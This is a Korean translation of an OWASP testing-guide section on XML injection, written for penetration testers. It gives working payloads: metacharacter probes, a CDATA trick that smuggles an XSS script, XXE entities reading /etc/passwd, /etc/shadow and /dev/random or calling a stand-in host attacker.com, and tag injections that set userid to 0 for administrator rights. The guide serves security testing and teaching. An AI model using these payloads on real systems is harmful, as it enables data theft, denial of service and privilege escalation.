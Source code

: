 ============================================================================================
OTG-INPVAL-008 (XML 인젝션 테스트)
============================================================================================

|

개요
============================================================================================

XML 인젝션 테스트는 침투 테스터가 어플리케이션에 XML 문서를 삽입하려 할 때 입니다.
만약 XML 파서가 문맥 데이터를 검증하는데 실패하면, 테스트가 긍정적인 결과를 산출할 것입니다.
이 섹션은 XML 삽입의 실제 사례를 설명합니다.
우선 XML 스타일의 통신을 정의하고, 그 동작 원리를 설명합니다.
그런 다음, XML 메타 문자를 삽입하는 검색 방법에 대해 설명합니다.
첫번째 단계가 수행되면, 침투 테스터는 XML 구조에 대한 정보를 가지고, 
XML 데이터 및 태그를 인젝션 시도하는 것이 가능할 것입니다

|

테스트 방법
============================================================================================

아래 처럼 사용자 등록을 수행하기 위해 XML 스타일 통신을 사용하는 
웹 어플리케이션이 있다고 가정합니다.
계정이 생성이 되면, xmlDb 파일에 <user> 노드가 새로 추가됩니다.

.. code-block:: xml

    <?xml version=”1.0” encoding=”ISO-8859-1”?>
    <users>
        <user>
            <username>gandalf</username>
            <password>!c3</password>
            <userid>0</userid>
            <mail>gandalf@middleearth.com</mail>
        </user>
        <user>
            <username>Stefan0</username>
            <password>w1s3c</password>
            <userid>500</userid>
            <mail>Stefan0@whysec.hmm</mail>
        </user>
    </users>


예를 들어, 다음 값이 있습니다.

.. code-block:: xml

    Username: tony
    Password: Un6R34kb!e
    E-mail: s4tan@hell.com

요청을 진행합니다.

.. code-block:: console

    http://www.example.com/addUser.php?
    username=tony&
    password=Un6R34kb!e&
    email=s4tan@hell.com

어플리케이션에서는 다음 노드가 빌드됩니다.

.. code-block:: xml

    <user> 
        <username>tony</username> 
        <password>Un6R34kb!e</password>
        <userid>500</userid>
        <mail>s4tan@hell.com</mail> 
    </user>

다음 xmlDB에 추가될 것입니다.

.. code-block:: xml

    <?xml version="1.0" encoding="ISO-8859-1"?> 
    <users> 
        <user>
            <username>gandalf</username>
            <password>!c3</password>
            <userid>0</userid>
            <mail>gandalf@middleearth.com</mail> 
        </user> 
        <user>
            <username>Stefan0</username>
            <password>w1s3c</password>
            <userid>500</userid>
            <mail>Stefan0@whysec.hmm</mail> 
        </user> 
        <user>
            <username>tony</username>
            <password>Un6R34kb!e</password>
            <userid>500</userid>
            <mail>s4tan@hell.com</mail> 
        </user> 
    </users> 

|

취약점 존재 확인
-------------------------------------------------------------------------------------------

어플리케이션에 XML 삽입 취약점이 존재하는지 테스트하기 위해 XML 메타 문자를 삽입하는 부분을 
확인합니다.

**XML metacharacters**

- 싱글 쿼트: ' 

필터링하지 않을 경우, 인젝션된 값이 태그의 속성 값의 일부가 될 것입니다. XML 파싱 동안 예외가 발생될 수 있습니다.

예를 들어 다음과 같은 속성이 있다고 가정합니다.

.. code-block:: xml

    <node attrib='$inputValue'/>

그래서 만약 아래와 같이 삽입되면 다음과 같이 속성 값이 삽입됩니다.

.. code-block:: xml

    inputValue = foo'

    <node attrib='foo''/> 


|

- 더블 쿼트: " 

이 문자도 싱글 쿼트와 같으며, 속성 값이 더블 쿼트로 묶여 있는 경우 사용될 수 있습니다.

.. code-block:: xml

    <node attrib="$inputValue"/> 

그래서 만약 아래와 같이 삽입되면 다음과 같이 속성 값이 삽입됩니다.

.. code-block:: xml

    $inputValue = foo" 

    <node attrib="foo""/> 


|

- 부등 기호: >, < 

다음과 같이 입력 부분에 개방 또는 폐쇄 괄호를 추가합니다.

.. code-block:: xml

    Username = foo< 

어플리케이션에 다음과 같이 빌드됩니다.

.. code-block:: xml

    <user> 
        <username>foo<</username> 
        <password>Un6R34kb!e</password> 
        <userid>500</userid>
        <mail>s4tan@hell.com</mail> 
    </user> 

|

- 주석 태그: <!--/--> 

해당 문자열은 주석의 시작과 종료로 해석됩니다. 

.. code-block:: xml

    Username = foo<!-

어플리케이션에서 다음과 같이 입력되게 됩니다.

.. code-block:: xml

    <user> 
        <username>foo<!--</username> 
        <password>Un6R34kb!e</password> 
        <userid>500</userid>
        <mail>s4tan@hell.com</mail> 
    </user> 

|

- 앰퍼센드: & 

앰퍼센드는 엔티티를 표현하기 위한 XML 구문으로 사용됩니다. 
엔티티의 형식은 '&symbol;' 입니다.
앤티티는 유니 코드 문자 집합의 문자에 매핑된다.

[예제]

.. code-block:: xml
    
    <tagnode>&lt;</tagnode> 

위 문자는 '<' 로 표현됩니다.

만약 '&' 가 &amp; 로 자체 인코딩되지 않아, XML 인젝션을 테스트하는 데 사용됩니다. 

사실상, 만약 입력이 다음과 같다면 새로운 노드가 아래와 같이 생성될 것입니다.

.. code-block:: xml

    Username = &foo 


.. code-block:: xml

    <user> 
        <username>&foo</username> 
        <password>Un6R34kb!e</password> 
        <userid>500</userid> 
        <mail>s4tan@hell.com</mail> 
    </user> 

|

- CDATA section delimiters: <![CDATA[ / ]]> 

CDATA 섹션은 마크업으로 인식될 수 있는 문자를 포함하는 텍스트 영역을 빠져나가는데 사용됩니다.
즉, CDATA 섹션에 둘러싸인 문자는 XML 파서에 의해 해석되지 않습니다.

예를 들어, 만약 텍스트 노드에 '<foo>' 문자를 표현해야 한다면, CDATA 섹션을 사용하면 됩니다.

.. code-block:: xml

    <node>
        <![CDATA[<foo>]]> 
    </node>

위의 '<foo>' 문자열은 파싱되지 않고 표현될 것입니다.

만약 노드가 다음 방법으로 빌드되어 있다면, 태스터는 

.. code-block:: xml

    <username><![CDATA[<$userName]]></username> 

CDATA 문자열 끝에 ']]>' 문자열을 삽입할 수 있습니다.

.. code-block:: xml

    userName = ]]> 

this will become: 

.. code-block:: xml

    <username><![CDATA[]]>]]></username> 

CDATA 태그와 관련해서 또 다른 예제로 HTML 페이지를 생성할 수 있는 
XML 문서라고 가정해봅시다.

이 경우에는, CDATA 섹션이 필터링 목록에 없을 경우 CDATA를 통해 우회할 수 있습니다.
아래 구체적인 예를 살펴봅시다.

.. code-block:: xml

    <html>
        $HTMLCode
    </html> 

공격자는 다음과 같은 입력을 제공할 수 있습니다.

.. code-block:: xml

    $HTMLCode = <![CDATA[<]]>script<![CDATA[>]]>
    alert('xss')<![CDATA[<]]>/script<![CDATA[>]]> 

그리고 다음 코드를 포함합니다.

.. code-block:: xml

    <html>
        <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/ script<![CDATA[>]]> 
    </html> 

아래와 같이 CDATA 섹션은 제거되고, 다음 HTML 코드가 생성되게 됩니다.

.. code-block:: xml

    <script>alert('XSS')</script> 

결과적으로 XSS 취약점이 발생하게 됩니다.


**External Entity:**

유효한 엔티티의 집합은 새로운 엔티티를 정의하여 확장될 수 있습니다. 
만약 엔티티의 정의가 URI 라면, 엔티티는 외부 엔티티라고 합니다.
다른 구성이 없는 한, 외부 엔티티가 URI(로컬 머신 또는 원격 시스템 파일)에 의해 
지정된 리소스에 강제 접근합니다.
이 동작은 XML 외부 엔티티(XXE) 공격에 노출됩니다.

XXE 취약점을 테스트하기 위해서는 다음 입력을 사용할 수 있습니다. 

.. code-block:: xml

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ 
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file://dev/random" >]><foo>&xxe;
    </foo> 

이 테스트에서 만약 XML 파서가 /dev/random 파일 목록으로 엔티티를 대체하려고 하면,
웹 서버가 종료될 수도 있습니다.

또 다른 유용한 테스트 방법입니다.

.. code-block:: xml

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file://etc/passwd" >]><foo>&xxe;</foo>
    
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file://etc/shadow" >]><foo>&xxe;</foo>
    
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file://c:/boot.ini" >]><foo>&xxe;</foo>
    
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt">]><foo>&xxe;</foo> 

|

태그 인젝션
-------------------------------------------------------------------------------------------

첫번째 단계가 수행되면, 테스터는 XML 문서의 구조에 대한 정보를 얻을 것입니다.
그리고나서, XML 데이터와 태그를 삽입할 수가 있습니다.
아래에서 권한 상승 공격이 발생할 수 있는 방법을 예제로 보여줄 것입니다.

아래와 같이 이메일에 xml 태그 값을 입력합니다.

.. code-block:: xml

    Username: tony 
    Password: Un6R34kb!e 
    E-mail: s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com 

어플리케이션은 새로운 노드를 빌드하고 XML 데이터베이스에 그것을 추가할 것입니다.

.. code-block:: xml

    <?xml version="1.0" encoding="ISO-8859-1"?> 
    <users> 
        <user>
            <username>gandalf</username>
            <password>!c3</password>
            <userid>0</userid>
            <mail>gandalf@middleearth.com</mail> 
        </user> 
        <user>
            <username>Stefan0</username>
            <password>w1s3c</password>
            <userid>500</userid>
            <mail>Stefan0@whysec.hmm</mail> 
        </user> 
        <user>
            <username>tony</username>
            <password>Un6R34kb!e</password>
            <userid>500</userid>
            <mail>s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com</mail> 
        </user>
    </users> 

우리가 삽입한 사용자는 userid 태그에 0을 부여하여 관리자 권한을 획득하였습니다.

XML 문서가 다음 DTD에 의해 지정되었다고 가정합니다.

.. code-block:: xml

    <!DOCTYPE users [
        <!ELEMENT users (user+) >
        <!ELEMENT user (username,password,userid,mail+) >
        <!ELEMENT username (#PCDATA) >
        <!ELEMENT password (#PCDATA) >
        <!ELEMENT userid (#PCDATA) >
        <!ELEMENT mail (#PCDATA) > 
    ]> 

userid 노드가 cardinality 1으로 정의되어 있는 걸 체크합니다.
이 경우에는, 모든 처리가 발생하기 전에 XML 문서가 DTD에 대해 검증되는 경우, 
위 공격 방식은 동작하지 않습니다.

그러나, 테스터가 잘못된 노드 앞 일부 노드 값을 제어할 경우 문제는 해결될 수 있습니다.
사실상, 테스터는 주석의 시작과 종료를 주입하여 노드들을 주석처리 할 수 있습니다.

.. code-block:: xml

    Username: tony 
    Password: Un6R34kb!e</password><!--
    E-mail: --><userid>0</userid><mail>s4tan@hell.com 


.. code-block:: xml

    <?xml version="1.0" encoding="ISO-8859-1"?> 
    <users>
        <user>
            <username>gandalf</username>
            <password>!c3</password>
            <userid>0</userid>
            <mail>gandalf@middleearth.com</mail> 
        </user>
        <user>
            <username>Stefan0</username>
            <password>w1s3c</password> 
            <userid>500</userid> 
            <mail>Stefan0@whysec.hmm</mail> 
        </user> 
        <user> 
            <username>tony</username> 
            <password>Un6R34kb!e</password><!--</password> 
            <userid>500</userid> 
            <mail>--><userid>0</userid><mail>s4tan@hell.com</mail> 
        </user> 
    </users> 


|

Tools 
============================================================================================

- XML Injection Fuzz Strings (from wfuzz tool): https://github.com/xmendez/wfuzz

|

References 
============================================================================================

Whitepapers
------------------------------------------------------------------------------------------

- Alex Stamos: "Attacking Web Services": http://www.owasp.org/images/d/d1/AppSec2005DC-Alex_Stamos-Attacking_Web_Services.ppt 
- Gregory Steuck, "XXE (Xml eXternal Entity) attack": http://www.securityfocus.com/archive/1/297714 

|
